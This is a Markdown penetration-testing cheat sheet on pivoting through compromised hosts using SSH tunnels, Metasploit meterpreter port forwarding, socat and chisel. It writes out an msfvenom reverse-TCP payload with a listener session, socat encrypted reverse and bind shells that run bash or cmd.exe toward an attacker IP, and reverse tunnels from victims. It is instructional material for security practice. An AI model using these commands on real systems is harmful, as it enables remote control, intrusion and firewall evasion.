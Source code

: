 ```yaml
---
title: Proxy & Port forwarding
description: Desciption of two pivot techniques, port forwarding and proxy.
---
```


# Proxy & Port forwarding

**2 methods :**

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall.
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host.

Port Forwarding tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device.

## Using SSH

### Proxy

**Proxy :** http://127.0.0.1:8080

```bash
ssh -D 8080 user@example.com -fN
```

**Proxy :** socks5://127.0.0.1:9050

```bash
ssh -g -D 9050 user@example.com -fN
```

### Port forwarding (local)

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com -fN
```

- `-f` : Backgrounds ssh.
- `-N` : Do not execute a remote command.

### Port forwarding (remote)

**Goal :** localhost:4444 -> host1:4444 -> host2:80

Listen on all interfaces :

```bash
# localhost:4444 -> host1:4444 -> host2:80
ssh -R 0.0.0.0:4444:host2:80 user@host1 -fN
```

!!! warning
    You need also to configure SSH daemon on target host to allow client to specify the bind_address. It is prohibited by default to listen to all interfaces. So, you will always find it listening on loopback even if you specifiy 0.0.0.0 as bind_address.

When you cannot listen on all interfaces :

```bash
# localhost:4444 -> host1:4444
ssh -L 4444:127.0.0.1:4444 user@host1 -fN
# host1:4444 -> host2:80
ssh -R 4444:host2:80 user@host1 -fN
```

## Using metasploit (meterpreter)

### Port forwarding

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

## Using socat

### Port forwarding

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Listent on `33060`, then redirect to `172.16.0.10:3306`.

- `fork` : create new process for every connection.
- `reuseaddr` : port stays open after a connection close.

### Encrypted shell

Generate certificates :

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```
Reverse shell :

```bash
# Listener (attacker)
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 -

# Connection (victim)
./socat OPENSSL:10.10.10.1:4444,verify=0 EXEC:/bin/bash
```

Bind shell :

```bash
# Listener (victim)
./socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# Connection (attacker)
socat OPENSSL:10.10.200.1:4444,verify=0 -
```

## Using chisel

- [Chisel](https://github.com/jpillora/chisel)

### Port fowarding

Example : `localhost:8081` -> `victim:8080` (from local)

```bash
# Listener (attacker on 10.10.10.1)
./chisel server -p 4444 --reverse

# Connection (victim)
./chisel client 10.10.10.1:4444 R:8081:127.0.0.1:8080
```